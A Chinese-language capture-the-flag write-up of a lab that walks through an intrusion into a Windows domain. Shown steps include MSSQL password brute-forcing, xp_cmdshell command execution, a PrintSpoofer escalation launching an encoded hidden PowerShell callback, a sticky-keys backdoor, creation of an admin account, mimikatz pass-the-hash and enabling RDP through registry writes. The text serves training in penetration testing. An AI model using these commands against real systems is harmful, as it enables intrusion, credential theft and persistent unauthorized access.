


# 春秋云镜-Tsclient

## 靶场描述

Tsclient是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有3个flag，分布于不同的靶机。

## 信息收集

```
root@kali:/home/q/桌面# nmap -A -sV -T4 39.99.133.30
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-30 14:50 CST
Nmap scan report for 39.99.133.30
Host is up (0.081s latency).
Not shown: 991 closed ports
PORT     STATE    SERVICE       VERSION
80/tcp   open     http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  filtered msrpc
139/tcp  filtered netbios-ssn
445/tcp  filtered microsoft-ds
1433/tcp open     ms-sql-s      Microsoft SQL Server 2016 13.00.1601.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: WIN-WEB
|   NetBIOS_Domain_Name: WIN-WEB
|   NetBIOS_Computer_Name: WIN-WEB
|   DNS_Domain_Name: WIN-WEB
|   DNS_Computer_Name: WIN-WEB
|_  Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-07-30T06:47:58
|_Not valid after:  2053-07-30T06:47:58
|_ssl-date: 2023-07-30T06:51:50+00:00; 0s from scanner time.
2383/tcp open     ms-olap4?
3389/tcp open     ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-WEB
|   NetBIOS_Domain_Name: WIN-WEB
|   NetBIOS_Computer_Name: WIN-WEB
|   DNS_Domain_Name: WIN-WEB
|   DNS_Computer_Name: WIN-WEB                
|   Product_Version: 10.0.14393                
|_  System_Time: 2023-07-30T06:51:45+00:00      
| ssl-cert: Subject: commonName=WIN-WEB        
| Not valid before: 2023-07-29T06:47:47      
|_Not valid after:  2024-01-28T06:47:47        
|_ssl-date: 2023-07-30T06:51:50+00:00; 0s from scanner time. 
5800/tcp filtered vnc-http                                   
5900/tcp filtered vnc                                      
Device type: general purpose                                                                               
Running (JUST GUESSING): Microsoft Windows 2016|2012|10|2008 (92%), FreeBSD 6.X (88%)                      
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_10:1607 cpe:/o:microsoft:windows_server_2008:r2:sp1
Aggressive OS guesses: Microsoft Windows Server 2016 (92%), FreeBSD 6.2-RELEASE (88%), Microsoft Windows Server 2012 (86%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (86%), Microsoft Windows Server 2012 R2 (86%), Microsoft Windows 10 1607 (86%), Microsoft Windows Server 2008 R2 SP1 (86%), Microsoft Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 15 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   39.99.133.30:1433: 
|     Version: 
|       name: Microsoft SQL Server 2016 RTM
|       number: 13.00.1601.00
|       Product: Microsoft SQL Server 2016
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
.....
```


1443端口打mssql

### nmap

```
nmap -p 1433 -Pn --script ms-sql-info 39.99.133.30
//-p 表示指定端口号、-Pn：不检测主机存活、--script 指定脚本
```

爆破

```
nmap -p 1433 -Pn --script ms-sql-brute --script-args userdb=mssql_user.txt,passdb=mssql_password.txt 39.99.133.30
// --script-args 指定脚本参数；userdb= 指定用户名字典 ；passdb= 指定密码字典
```

扫出来密码是

```
sa:1qaz!QAZ
```

### msf

```
use auxiliary/scanner/mssql/mssql_login
set rhost 39.99.133.30
set user_file C:/Users/86136/Desktop/mssql_user.txt
set pass_file C:/Users/86136/Desktop/top6000.txt
run
```


## getshell

### 数据库利用工具

```
数据库利用工具：链接：https://pan.baidu.com/s/1vKrJSVAn06uP7scqtR_LVA 提取码：sj9u
```


激活组件然后执行命令


上传位置

```
C:/Users/Default/AppData/Local/Temp/
```


## 横向穿越

### 上线cs

cs生成个马然后丢到目录运行就好


上线


扫描内网


上fscan，然后开扫


```
C:/Users/Default/AppData/Local/Temp/fscan64.exe -h 172.22.8.1/24 > C:/Users/Default/AppData/Local/Temp/1.txt
```

```
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.8.31     is alive
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.46     is alive
(icmp) Target 172.22.8.18     is alive
[*] Icmp alive hosts len is: 4
172.22.8.15:445 open
172.22.8.18:1433 open
172.22.8.15:135 open
172.22.8.31:445 open
172.22.8.18:135 open
172.22.8.46:445 open
172.22.8.46:135 open
172.22.8.31:135 open
172.22.8.46:80 open
172.22.8.18:80 open
172.22.8.15:88 open
172.22.8.31:139 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.15:139 open
172.22.8.18:139 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetInfo:
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:10d7:1f27:d89c:6bd2
[*] NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetBios: 172.22.8.31     XIAORANG\WIN19-CLIENT          
[*] NetBios: 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.8.15     [+]DC XIAORANG\DC01            
[*] WebTitle: http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
```

### 提权

https://github.com/itm4n/PrintSpoofer/

```
shell  C:\Users\Default\AppData\Local\Temp\PrintSpoofer64.exe -i -c "powershell.exe -c whoami"
```


sc生成powershell，运行回连

```
shell  C:\Users\Default\AppData\Local\Temp\PrintSpoofer64.exe -i -c "powershell.exe -nop -w hidden -encodedcommand JABzAD0ATgBl....wA="
```


找到第一个flag


```
flag01: flag{27e7829f-0fc6-455d-b543-8f2fda5ec2d3} 
```

## 域间渗透

抓hash和猕猴桃


用户hash


看3389连接信息


这里的172.22.8.31连接着，通过rdp反打。


注入进程然后切换到john的账号


看他c盘的文件


获取账号密码


```
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# 
```

### 搭建隧道

kali登录远程连接

```
proxychains rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab -p 'Ald@rLMWuy7Z!#'
```

进去后修改密码

```
1qaz!QAZ
```



这里是普通的域权限，要提权

上传frp到172.22.8.18，然后用本地的win连接远程桌面


### 提权

这里使用沾滞键进行提权

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

然后按5下shift就可以打开cmd，但是这里没提权成功


通过rdesktop来在登录界面触发`system`权限的`sethc.exe`来达到提权的目的

```
proxychains rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab
```


拿第二个flag


然后创建用户

```
net user eek 1qaz!QAZ /add 
net localgroup administrators eek /add
```


通过创建的用户远程登录进来


这里win2016是管理员组

### 打其他用户

抓hash，上mimikatz，然后管理员身份运行

```
privilege::debug  #提升权限
token::elevate 将权限提升至system
```


导出用户hash


hash传递

```
sekurlsa::pth /user:WIN2016$ /domain:XIAORANG /ntlm:7eadae8fd514bb09faf283be67f8f046
```


dir看flag

```
dir \\172.22.8.15\c$\Users\Administrator\flag
type \\172.22.8.15\c$\Users\Administrator\flag\flag03.txt
```



## 其他操作

### impacket

用impacket打mssql

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install -r requirements.txt
python3 setup.py install
```

连接

```
cd examples
python3 mssqlclient.py sql_svc@[IP] -windows-auth
python3 mssqlclient.py sql_svc@39.99.140.220 -windows-auth
#1qaz!QAZ
```

执行命令

```
SQL> xp_cmdshell "whoami"
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
```

写文件

```
SQL> exec sp_makewebtask 'C:\test1.php','select 一句话木马';
```


### CS

生成马上传到目标位置


执行cs上线


cs提权


添加用户到管理员组

### 开RDP

查看是否开启

```
exec master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections'
```

开启端口

```
EXEC master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
```

查看RDP端口

```
EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber'
```

关闭RDP

```
EXEC master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',1;
```

